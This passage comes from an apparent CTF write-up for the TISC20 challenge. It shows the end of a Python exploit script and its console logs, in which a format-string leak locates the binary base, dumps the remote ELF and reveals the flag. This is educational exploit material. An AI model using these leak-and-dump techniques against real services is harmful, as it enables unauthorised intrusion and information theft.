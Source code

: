 ```python
        except:
            log.info("Got EOF, leaked all we could.")
            break

    log.info("Obtained {} bytes of ELF file.".format(len(elf_contents)))
    log.success("Flag: {}.".format(flag))

if __name__ == '__main__':
    main()
```

There is some unreliability with guessing that the true base of the ELF file is at the mask of
`0xffffffffffffe000` of the leaked pointer and sometimes, the exploit fails with the following
output. The script detects this and reports the failed attempt.

```console
$ python exploit.py
[+] Opening connection to fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg on port 42000: Done
[*] Got address of index 38: 0x7ffe7fb02fc0
[*] RSP (index 0): 0x7ffe7fb02e90
[*] Got address of index 26 (index 39): 0x7ffe7fb02fc8
[*] Got value of index 39: 0x7ffe7fb04f5c
[*] Got address of index 4 (format string): 0x5582989670a0
[*] Got address of index 7 (format string): 0x5582989642e0
[*] ELF Start: 0x558298964000
[*] ELF Start Bytes: b'\xf3\x0f\x1e\xfaH\x83\xec\x08H\x8b\x05\xd9/'
[*] Attempt failed.
```

On a good run, the script detects that the appropriate ELF header is identified and continues on to
dump the ELF binary. This can take a very long time. During execution, it also looks for the flag
and reports it.

```console
$ python exploit.py
[+] Opening connection to fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg on port 42000: Done
[*] Got address of index 38: 0x7ffca01db940
[*] RSP (index 0): 0x7ffca01db810
[*] Got address of index 26 (index 39): 0x7ffca01db948
[*] Got value of index 39: 0x7ffca01dcf5c
[*] Got address of index 4 (format string): 0x5557a54680a0
[*] Got address of index 7 (format string): 0x5557a54652e0
[*] ELF Start: 0x5557a5464000
[*] ELF Start Bytes: b'\x7fELF\x02\x01\x01'
[*] Got 9 bytes of ELF data so far.
[*] Got 101 bytes of ELF data so far.
[*] Got 201 bytes of ELF data so far.
[*] Got 301 bytes of ELF data so far.
[*] Got 402 bytes of ELF data so far.
[*] Got 501 bytes of ELF data so far.
[*] Got 602 bytes of ELF data so far.
[*] Got 701 bytes of ELF data so far.
[*] Got 820 bytes of ELF data so far.
[*] Got 902 bytes of ELF data so far.
[*] Got 1001 bytes of ELF data so far.
...
[*] Got 16401 bytes of ELF data so far.
[+] Discovered flag: TISC20{Ch3ckp01nt_1_349ufh98hd98iwqfkoieh938}
[*] Got 16503 bytes of ELF data so far.
...
[*] Got 20401 bytes of ELF data so far.
[*] Got EOF, leaked all we could.
[*] Obtained 20480 bytes of ELF file.
[+] Flag: TISC20{Ch3ckp01nt_1_349ufh98hd98iwqfkoieh938}.
```
